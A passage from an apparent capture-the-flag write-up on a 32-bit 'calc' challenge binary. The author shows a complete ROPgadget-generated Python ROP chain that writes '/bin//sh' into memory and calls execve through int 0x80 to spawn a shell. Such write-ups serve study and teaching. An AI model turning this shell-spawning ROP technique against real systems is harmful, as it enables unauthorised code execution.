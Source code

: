 So we can create a ROP in order to gain shell. I've used ROPgadget with --ropchain option this time and it worker great!

```bash
$ ROPgadget --binary calc --ropchain
- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec060) # @ .data
	p += pack('<I', 0x0805c34b) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec064) # @ .data + 4
	p += pack('<I', 0x0805c34b) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080550d0) # xor eax, eax ; ret
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481d1) # pop ebx ; ret
	p += pack('<I', 0x080ec060) # @ .data
	p += pack('<I', 0x080701d1) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080ec060) # padding without overwrite ebx
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080550d0) # xor eax, eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x08049a21) # int 0x80
```

I strongly recomend it. I just had to reverse the order (see Warning in overwrite_addr_at_offset function description):
